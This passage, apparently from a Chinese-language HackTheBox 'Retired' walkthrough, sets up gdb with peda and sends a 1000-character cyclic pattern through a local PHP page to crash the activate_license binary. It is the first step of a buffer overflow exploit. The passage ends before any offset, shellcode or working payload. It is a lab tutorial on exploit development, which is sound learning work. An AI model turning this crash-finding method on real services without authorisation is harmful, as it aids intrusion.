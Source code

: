 如果没有安装 [gdb](https://www.sourceware.org/gdb/) :

```
apt install gdb
```

还要安装 [peda](https://github.com/longld/peda) ，它向 gdb 添加了许多有用的命令:

```
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
```

现在用 activate_license 二进制文件启动 gdb:

```
┌──(root㉿kali)-[~]
└─# gdb -q --args ./activate_license 1337
Reading symbols from ./activate_license...
```

接下来，我们需要创建一个独特的字符模式，我们将发送它来破坏二进制文件:

```
gdb-peda$ pattern_create 1000 pencer.txt
Writing pattern of 1000 chars to filename "pencer.txt"
```

现在我们可以运行二进制文件:

```
gdb-peda$ run
Starting program: /root/htb/retired/activate_license 1337
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[+] starting server listening on port 1337
[+] listening ...
```

所以现在我们有了托管 php 脚本的 PHP 服务器，该脚本将把我们的有效负载推送到运行在 gdb 中并监听端口 1337 的二进制文件。接下来，我们需要一个简单的 Python 脚本来发送我们刚刚创建的模式:

```
┌──(root㉿kali)-[~/htb/retired]
└─# cat pencer.py
import requests
f = open("pencer.txt", "r")
payload = f.read()
f.close()
r = requests.post(f"http://localhost:8080/activate_license.php", files = { "licensefile": payload } )
```

这只是读入包含我们在 gdb 中创建的 1000 字符模式的 txt 文件。然后它将它发送到 php 脚本，PHP 脚本将它写入运行在 gdb 中的 activate_license 二进制文件:

```
┌──(root㉿kali)-[~/htb/retired]
└─# python pencer.py
```
